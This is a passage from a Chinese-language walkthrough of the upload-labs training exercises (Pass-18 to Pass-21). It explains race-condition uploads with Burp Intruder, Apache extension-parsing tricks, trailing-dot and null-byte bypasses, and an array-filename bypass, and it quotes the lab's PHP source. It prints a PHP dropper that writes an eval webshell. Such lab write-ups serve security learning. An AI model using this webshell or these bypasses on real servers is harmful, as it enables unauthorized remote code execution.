1. 这样理解条件竞争：如果只让你干A一件事，你出现差错的概率很小，但是如果让你同时干A、B、C三种事呢，你是不是很可能由于忙乱而出现些错误？这就是条件竞争。（它的重命名方式是时间戳，如果在极短时间内多次上传，文件的重命名就会因为相同而冲突，就会产生一些错误）

> **文件上传条件竞争前提：** 服务器会先将任意类型文件放在服务器上，然后再判断合法性，非法则删除（文件会在服务器停留极短时间，我们使用Burp疯狂地向服务器提交请求，在其服务器忙不过来的时候便可能会出现这种问题）

2. 由于我们需要长久的连接到我们的木马，但是其只能在服务器上存在极短时间，这肯定是不行的。但是，极短时间可以执行一句代码，执行什么呢，如下：`<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST["cmd"]) ?>'); ?>`，这句话的意思是生成一个shell.php在服务器目录中，而其文件内容就是：`<?php @eval($_POST["cmd"]) ?>`，在此之后，上传的文件判断后仍会被删除，但是新创建的shell.php并不会被判断而删除。
3. 理论结束，开始操作，我们先写一个php文件，其内容就是`<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST["cmd"]) ?>'); ?>`，然后上传，用Burp拦截，发送到Intruder模块，设置空载，然后让Burp开始跑。

4. （运气好的话）服务器上会成功出现shell.php


##  Pass-19 逻辑漏洞 (条件竞争-Apache解析漏洞)

1. 这关也是条件竞争，但是有个区别就是，他对后缀名做了白名单判断，然后会一步一步检查文件大小、文件是否存在等等，满足之后，才会将文件上传后至服务器，对文件重新命名，同样存在条件竞争的漏洞。
2. 这里我们先了解一下Apache的解析漏洞，在我们上传一个文件时，就比如说是1.php.7z  。比如，比如！比如apache不认识7z，那就会往前读取，这时候就会读取到php，所以你在用浏览器访问此文件的时候，也会正常读取到其中的php内容，但是，但是！但是此处的白名单中有 7z 这个后缀。
3. 所以我们先打开Burp拦截，上传1.php，然后直接改包为 1.php.7z 然后像上一关一样发送到爆破模式，高并发数攻击即可。

##  Pass-20 逻辑漏洞 (小数点绕过)

1. 后端代码：

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array("php","php5","php4","php3","php2","html","htm","phtml","pht","jsp","jspa","jspx","jsw","jsv","jspf","jtml","asp","aspx","asa","asax","ascx","ashx","asmx","cer","swf","htaccess");

        $file_name = $_POST['save_name'];
        $file_ext = pathinfo($file_name,PATHINFO_EXTENSION);

        if(!in_array($file_ext,$deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) { 
                $is_upload = true;
            }else{
                $msg = '上传出错！';
            }
        }else{
            $msg = '禁止保存为该类型文件！';
        }

    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```
2. 从后端代码中可以看出，我们可以用很多中方法绕过，比如说文件选择一个php文件，保存名称改为1.php. ，然后利用windows会自动删除最后的点和空格来绕过。
3. 我们看一看上面的代码，它使用 pathinfo($file_name,PATHINFO_EXTENSION) 的方式检查文件名后缀 (从最后一个小数点进行截取) ，并使用的是黑名单机制，所以我们可以在保存名称处改为1.php.
4. 再看一看源码，发现 move_uploaded_file() 函数中的 img_path 是由 post 参数 save_name 控制的，因此可以在 save_name 利用 00 截断绕过（**Pass-13**）

> **move_uploaded_file() 特性：**  /.在对比黑名单的时候会忽略

##  Pass-21 逻辑漏洞 (数组绕过)

1. 后端代码长这样：

```php
$is_upload = false;
$msg = null;
if(!empty($_FILES['upload_file'])){
    //检查MIME
    $allow_type = array('image/jpeg','image/png','image/gif');
    if(!in_array($_FILES['upload_file']['type'],$allow_type)){
        $msg = "禁止上传该类型文件!";
    }else{
        //检查文件名
        $file = empty($_POST['save_name']) ? $_FILES['upload_file']['name'] : $_POST['save_name'];
        if (!is_array($file)) {
            $file = explode('.', strtolower($file));
        }

        $ext = end($file);
        $allow_suffix = array('jpg','png','gif');
        if (!in_array($ext, $allow_suffix)) {
            $msg = "禁止上传该后缀文件!";
        }else{
            $file_name = reset($file) . '.' . $file[count($file) - 1];
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $msg = "文件上传成功！";
                $is_upload = true;
            } else {
                $msg = "文件上传失败！";
            }
        }
    }
}else{
    $msg = "请选择要上传的文件！";
}
```
2. 里面有一个东西应该注意：`$file = explode('.', strtolower($file));`，这是把文件名通过“ . ”进行分割，生成一个数组（ explode() 函数把字符串打散为数组），然后 end()  函数将数组内部指针指向最后一个元素，并返回该元素的值（如果成功）。reset() 函数将内部指针指向数组中的第一个元素并输出。
3. 因为它的逻辑是如果没有数组则创建一个数组，那么如果我们直接上传一个数组就可以绕过
4. 我们先上传文件，用Burp拦截，将 content-type 修改为合法值，我们构造数组的时候，将第一个数组包含“ .php ”，最后一个数组是“ .jpg ”等合法后缀。其实最后一个数组可以改为大一些的，比如原来数组按正常只有两个值，我们直接arr[10]为png，这时候会将数组撑大，其中的数组值为空，这时候我们上传上去便为数组第一个元素的值，后面拼接好“ . ”，而windows自动删除最后的点。

